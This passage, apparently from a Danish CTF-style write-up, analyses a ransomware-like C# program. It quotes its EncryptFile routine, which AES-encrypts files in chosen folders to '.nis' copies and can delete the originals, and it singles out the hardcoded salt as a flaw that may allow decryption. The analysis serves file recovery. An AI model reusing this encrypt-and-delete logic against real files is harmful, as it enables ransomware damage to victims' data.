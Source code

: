 Der laves altså en liste med tre specifikke mappenavne, der nok er til stedet i `Alf`s dokumentmappe (kan verificeres med memory dump),
og for hver af disse kaldes `Directory.GetFiles(folder)` for at få en liste over alle filnavne i mappen.
For hver fil kaldes så `EncryptFile()` med filens navn, den genererede key og sidst et flag, der beskriver, om programmet blev kørt med argumentet `--delete-original`.

Lad os se på den krypteringsfunktion:

```cs
private static void EncryptFile(string filePath, byte[] key, bool deleteOriginalFile = false) {
    if (debug) {
        Console.WriteLine("Encrypting file " + filePath + "...");
    }

    byte[] salt = new byte[16] {
        1, 35, 69, 103, 137, 171, 205, 239, 254, 220,
        186, 152, 118, 84, 50, 16
    };

    using (Stream inputStream = File.OpenRead(filePath)) {
        using (Stream outputStream = File.Create(filePath + ".nis")) {
            AesEncrypt(key, salt, inputStream, outputStream);
        }
    }

    if (deleteOriginalFile) {
        if (debug) {
            Console.WriteLine("Deleting original file " + filePath + "...");
        }
        File.Delete(filePath);
    }
}
```

Funktionen initialiserer først et `salt` - det ser lidt tilfældigt ud, men er mindre tilfældigt i hex:

```cs
0x01, 0x23, 0x45, 0x67, 0x89, 0xab, 0xcd, 0xef,
0xfe, 0xdc, 0xba, 0x98, 0x76, 0x54, 0x32, 0x10
```

Saltet er hardcoded, og dermed er både salt og key ens for hver kryptering - det er værd at bide mærke i.

Nu åbnes filen og en ny fil med samme filnavn, men den ekstra endelse `.nis`, og så kaldes `AesEncrypt()`, hvilket vi må formode bruger `key` og `salt` til at kryptere `inputStream` og skrive det til `outputStream`. Sidst slettes filen, men kun hvis `deleteOriginalFile` er sat til `true`, dvs. hvis programmet blev kørt med argumentet `--delete-original`. Dette er igen for at sikre det en smule mere.

Næste step er at analysere selve krypteringsalgoritmen - måske har `N1ss3b4nd3n` lavet en dum fejl, der gør dekryptering mulig:
